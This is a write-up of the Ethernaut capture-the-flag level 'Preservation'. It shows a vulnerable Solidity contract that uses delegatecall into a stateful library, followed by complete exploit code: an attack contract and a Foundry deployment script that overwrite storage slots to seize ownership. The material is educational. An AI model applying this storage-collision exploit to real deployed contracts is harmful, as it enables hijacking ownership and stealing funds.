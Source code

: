 # Level 16 - Preservation ⏺⏺⏺⏺

{% embed url="https://ethernaut.openzeppelin.com/level/16" %}

### Level Setup

{% hint style="info" %}
This contract utilizes a library to store two different times for two different timezones. The constructor creates two instances of the library for each time to be stored.

The goal of this level is for you to claim ownership of the instance you are given.

&#x20; Things that might help

* Look into Solidity's documentation on the `delegatecall` low level function, how it works, how it can be used to delegate operations to on-chain. libraries, and what implications it has on execution scope.
* Understanding what it means for `delegatecall` to be context-preserving.
* Understanding how storage variables are stored and accessed.
* Understanding how casting works between different data types.
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/a89c8f7832258655c09fde16e6602c78e5e99dbd/contracts/src/levels/Preservation.sol" %}

{% code lineNumbers="true" fullWidth="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Preservation {
    // public library contracts
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    uint256 storedTime;
    // Sets the function signature for delegatecall
    bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

    constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) {
        timeZone1Library = _timeZone1LibraryAddress;
        timeZone2Library = _timeZone2LibraryAddress;
        owner = msg.sender;
    }

    // set the time for timezone 1
    function setFirstTime(uint256 _timeStamp) public {
        timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }

    // set the time for timezone 2
    function setSecondTime(uint256 _timeStamp) public {
        timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
    }
}

// Simple library contract to set the time
contract LibraryContract {
    // stores a timestamp
    uint256 storedTime;

    function setTime(uint256 _time) public {
        storedTime = _time;
    }
}
```
{% endcode %}

### Exploit

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-16

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-16

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit Contract" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/597859bfacb216c601efbdc60b0546fad51b37cb/src/Level16.sol" %}

{% code title="src/Level16.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";

// ================================================================
// │                     LEVEL 16 - PRESERVATION                  │
// ================================================================
contract AttackContract {
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;

    function setTime(uint256 /* _time */ ) public {
        owner = msg.sender;
    }
}
```
{% endcode %}
{% endtab %}

{% tab title="Exploit Deployment Script" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/597859bfacb216c601efbdc60b0546fad51b37cb/script/Level16.s.sol" %}

{% code title="script/Level16.s.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";

import {AttackContract} from "../src/Level16.sol";

// ================================================================
// │                     LEVEL 16 - PRESERVATION                  │
// ================================================================
interface IPreservation {
    function setFirstTime(uint256 _timeStamp) external;
}

contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();
        IPreservation preservation = IPreservation(targetContractAddress);

        vm.startBroadcast();
        AttackContract attackContract = new AttackContract();

        // Set the timeZone1Library to the address of the AttackContract
        preservation.setFirstTime(uint256(uint160(address(attackContract))));

        // Call the setFirstTime function again but this time it will delegate to the attackContract
        // which will set the owner to the msg.sender
        preservation.setFirstTime(1);
        vm.stopBroadcast();
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

Submit instance... 🥳

### Completion Message

{% hint style="info" %}
As the previous level, `delegate` mentions, the use of `delegatecall` to call libraries can be risky. This is particularly true for contract libraries that have their own state. This example demonstrates why the `library` keyword should be used for building libraries, as it prevents the libraries from storing and accessing state variables.
{% endhint %}

### Notes

{% embed url="https://github.com/nvnx7/ethernaut-openzeppelin-hacks/blob/e936301859334383d568a614084917100319205e/level_16_Preservation.md" %}

